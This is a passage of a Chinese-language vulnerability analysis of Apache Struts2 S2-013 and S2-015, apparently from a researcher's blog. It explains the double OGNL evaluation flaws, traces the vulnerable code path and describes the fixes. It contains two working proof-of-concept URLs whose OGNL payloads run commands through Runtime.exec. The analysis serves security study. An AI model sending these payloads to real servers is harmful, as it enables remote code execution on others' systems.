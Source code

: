 在S2中`s:url`和`s:a`这两个标签都提供了includeParams属性，这个属性主要是用于标志是否包含http请求参数。

- none: URL中不包含参数
- get：URL中只包含GET型参数
- all：URL中包含GET型和POST型参数

而当URL中带有参数的时候，S2会二次处理URL，如果参数中包含恶意的Ognl语句，那么就会按照Ognl语法解析。

poc:
```
http://localhost:8080/S2_013_war_exploded/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27calc%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read%28%23d%29%2C%23out%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23out.println%28%2bnew%20java.lang.String%28%23d%29%29%2C%23out.close%28%29%7D
```

## 漏洞分析

深入跟到`struts2-core-2.2.3.jar!\org\apache\struts2\views\util\UrlHelper.class`

![image.png-96kB][10]

然后跟到函数`buildParameterSubstring`

![image.png-16.1kB][11]

最后进入`translateAndEncode`导致命令执行
![image.png-57.4kB][12]

## 漏洞修复

最开始官方修复这个漏洞是通过限制`%{(#exp)}`来阻止执行的，也正是这样，导致了S2-014的诞生。

所以在接下来的修复中，官方使用了encode函数来代替`translateAndEncode`，在函数中去除了其他的处理，只保留了urlencode功能。

# S2-015

A vulnerability introduced by wildcard matching mechanism or double evaluation of OGNL Expression allows remote command execution.

简单来说就是，当服务端的参数或者action使用请求通配符动态引用，那么这个部分参数会被二次处理，并被Ognl解析。

但由于这部分的位置比较特殊，平时常用的一些符号都不能用。

poc:
```
http://localhost:8080/S2-015/${%23context['xwork.MethodAccessor.denyMethodExecution']=false,%23f=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23f.setAccessible(true),%23f.set(%23_memberAccess,true),@java.lang.Runtime@getRuntime().exec('calc')}.action

```


  [1]: http://static.zybuluo.com/LoRexxar/cmil8bv3wv8592sutv0dbyep/image.png
  [2]: http://static.zybuluo.com/LoRexxar/mlwvf00mi58jlqh605a91185/image.png
  [3]: http://static.zybuluo.com/LoRexxar/pxpjlwykpgggdms4lxm27zgc/image.png
  [4]: http://static.zybuluo.com/LoRexxar/u5v2n7g4080hawat8lr3p6xn/image.png
  [5]: http://static.zybuluo.com/LoRexxar/ar1ks3jmcchlnjd37tmmhc27/image.png
  [6]: http://static.zybuluo.com/LoRexxar/3pxtgw2juw6nsfsm4vmhxdyy/image.png
  [7]: http://static.zybuluo.com/LoRexxar/lyn5amkmmra6rbmuers34knr/image.png
  [8]: http://static.zybuluo.com/LoRexxar/kifut0voqab6sssl3mgyk2pf/image.png
  [9]: http://static.zybuluo.com/LoRexxar/cgy92yszm7yvvqovc1z9603a/image.png
  [10]: http://static.zybuluo.com/LoRexxar/7sth7twxxrnajq77w6epgica/image.png
  [11]: http://static.zybuluo.com/LoRexxar/rk9uc9eqftqi6a7tbwdh223m/image.png
  [12]: http://static.zybuluo.com/LoRexxar/3cz9e9mbrl4dr99lisrw8s1a/image.png
  [13]: http://static.zybuluo.com/LoRexxar/z55ena7gzy4r83e4iz3y43fo/image.png
  [14]: http://static.zybuluo.com/LoRexxar/e195qeml6rrnez3f2ndgcnlu/image.png